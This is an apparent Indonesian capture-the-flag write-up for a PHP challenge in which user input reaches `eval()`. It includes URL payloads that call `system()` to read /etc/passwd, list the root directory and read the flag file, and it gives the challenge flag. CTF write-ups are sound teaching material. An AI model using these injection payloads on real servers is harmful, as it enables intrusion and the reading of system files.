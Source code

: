 # Warm
[http://146.190.202.192:10003/](http://146.190.202.192:10003/)

Pemanasan itu penting, ingat itu baik baik

#tag
___
![chall](./img/chall.png)

Terdapat source code php sederhana dengan point-point berikut:
- Apabila mengakses `?__=`, function `eval()` akan menjalankan string yang kita masukkan.
- selain itu akan menampilkan `__file__` yang kita lihat diawal chall.

Kerentanan pada web ini termasuk pada Command Injection, apalagi terdapat function `eval()` yang memungkinkan kita untuk mengeksekusi perintah.

Gunakan function seperti `exec()`, `shell_exec()` atau `system()` untuk mencoba mengakses file server.

Ketika menggunakan `system()`, berhasil mendapatkan tampilan
```
http://146.190.202.192:10003/?__=system(%22cat%20/etc/passwd%22);
```

![/etc/passwd](./img/etc-passwd.png)

Sekarang, coba untuk menjelajah root.
```
http://146.190.202.192:10003/?__=system(%22ls%20/%22);
```

![root](./img/root.png)

Terdapat file yang bernama `flag.txt`, tinggal cek aja.
```
http://146.190.202.192:10003/?__=system(%22cat%20/flag.txt%22);
```

![flag](./img/flag.png)

> **LAOS{Pemanasan_dulu_gak_sehh_kawannn}**